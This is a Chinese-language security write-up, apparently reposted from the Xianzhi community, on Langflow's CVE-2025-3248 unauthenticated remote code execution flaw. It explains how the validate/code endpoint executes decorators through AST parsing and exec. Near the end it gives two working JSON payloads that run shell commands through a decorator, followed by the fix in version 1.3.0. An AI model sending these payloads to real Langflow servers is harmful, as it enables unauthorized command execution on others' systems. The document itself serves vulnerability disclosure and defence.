







# Langflow RCE远程代码执行漏洞分析（CVE-2025-3248）-先知社区

> **来源**: https://xz.aliyun.com/news/17914  
> **文章ID**: 17914

---

## 漏洞原理

### 代码定位

/api/v1/validate/code 接口接收 JSON 格式的 Python 代码后由validate\_code处理：

langflow/src/backend/base/langflow/api/v1/validate.py



validate\_code部分的代码



### 代码分析

validate\_code中使用AST模块解析用户输入，并提取ast.Import和ast.FunctionDef内容，也就是解析提交内容中的import和函数定义。

AST（抽象语法树，Abstract Syntax Tree）是Python代码在解析过程中生成的一种树形数据结构，表示代码的语法结构。它是Python编译过程的一个中间表示形式，将源代码分解为更易于分析和操作的层次结构。

```
import ast

code = "import os
def hello(): print('Hello')"
tree = ast.parse(code)
# 查看 AST 结构
print(ast.dump(tree, indent=2))
```

比如上述代码的AST结构，包含：

```
Module(
  body=[
    Import(
      names=[
        alias(name='os')]),
    FunctionDef(
      name='hello',
      args=arguments(
        posonlyargs=[],
        args=[],
```

回到validate\_code代码，import的模块通过importlib.import\_module验证，但是除非可以在环境路径中上传恶意模块，不然也无法通过此处执行任意命令。





而函数定义传入后的ast.FunctionDef，是通过compile和exec验证，这个验证执行仅仅是创建一个函数对象绑定到对应的名称，并不具备函数执行能力。而exec也只是把函数注册到globals中。



函数定义还支持包含函数使用的装饰器。



对于装饰器，其实可以直接执行Python表达式，而对于装饰器，import的时候又会被执行，这就导致了，通过import可以直接执行装饰器上的任意Python语句。

比如写一个deco.py

```
@print("Hello, Decorator!")
def func():
    print("Hello, World!")
```

通过test.py import deco就可以顺利执行print("Hello, Decorator!")

也就是如果我们把装饰器让ast.FunctionDef来加载，装饰器会被放入decorator\_list，然后编译执行函数定义的时候，decorator\_list里的装饰器也同样就会被执行。



### payload

{"code": "@\_\_import\_\_('os').system('touch /tmp/123') def func(): pass "}{"code": "@exec("raise Exception(\_\_import\_\_('subprocess').check\_output(['ip','a']))") def func(): pass"}

## 修复措施

Langflow 1.3.0 开始官方在/code接口加入了用户验证，请更新至最新版本。

## **参考** ：

* https://github.com/langflow-ai/langflow/releases/tag/1.3.0
* https://github.com/langflow-ai/langflow/pull/6911
* https://www.cve.org/cverecord?id=CVE-2025-3248
* https://www.horizon3.ai/attack-research/disclosures/unsafe-at-any-speed-abusing-python-exec-for-unauth-rce-in-langflow-ai/
